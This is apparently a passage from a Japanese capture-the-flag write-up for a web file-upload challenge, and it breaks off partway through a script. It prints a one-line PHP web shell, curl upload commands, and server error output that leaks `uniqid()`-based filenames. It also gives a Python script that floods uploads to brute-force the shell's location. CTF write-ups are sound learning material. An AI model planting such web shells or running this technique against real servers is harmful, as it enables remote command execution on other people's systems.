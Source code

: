 ```php
    echo "satoki";
    echo system($_GET["satoki"]);
?>
```
アップロードも問題なくできるようだ。  
```bash
$ curl https://filestore.web.actf.co -F f=@'satoki.php'
upload success
```
ファイル名を長くしてみることを思いつく。  
```bash
$ curl https://filestore.web.actf.co -F f=@'satoki.php;filename=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php'
<br />
<b>Warning</b>:  move_uploaded_file(./uploads/6445713e53178_4c92fdb99dcbb0073a26503b6f60335d1210f815f5272a4c2b80e0ed01f079fe_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php): Failed to open stream: File name too long in <b>/var/www/html/index.php</b> on line <b>14</b><br />
<br />
<b>Warning</b>:  move_uploaded_file(): Unable to move &quot;/tmp/phpH07YbE&quot; to &quot;./uploads/6445713e53178_4c92fdb99dcbb0073a26503b6f60335d1210f815f5272a4c2b80e0ed01f079fe_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php&quot; in <b>/var/www/html/index.php</b> on line <b>14</b><br />
upload error
```
エラーとなった。  
ここで、エラーからファイル名として`uniqid()`の結果がわかることに気づく。  
`uniqid()`は時間ベースなので、連続してファイルを送信すれば総当たり可能な範囲にWebShellを配置できる。  
以下のattack.pyで非同期で複数回ファイルを投げ、ある程度の範囲の`uniqid()`を総当たりする。  
```python
import re
import sys
import aiohttp
import asyncio
import requests
from aiohttp import FormData

URL = "https://filestore.web.actf.co/"

payload = open("satoki.php", "rb").read()

async def post(filename):
    async with aiohttp.ClientSession() as session:
        data = FormData()
        data.add_field("f", payload, filename=filename)
        async with session.post(URL, data=data) as response:
            return await response.text()

while True:
    try:
        loop = asyncio.get_event_loop()
        tasks = asyncio.gather(
            post(f"{'satoki'*30}.php"), 
            post("satoki.php"), 
            post("satoki.php"), 
            post("satoki.php"), 
            post(f"{'satoki'*30}.php"), 
        )
        res = loop.run_until_complete(tasks)

        start = int("0x" + re.search("uploads/([0-9a-f]*)_0d6fb", res[0]).group(1), 16)
```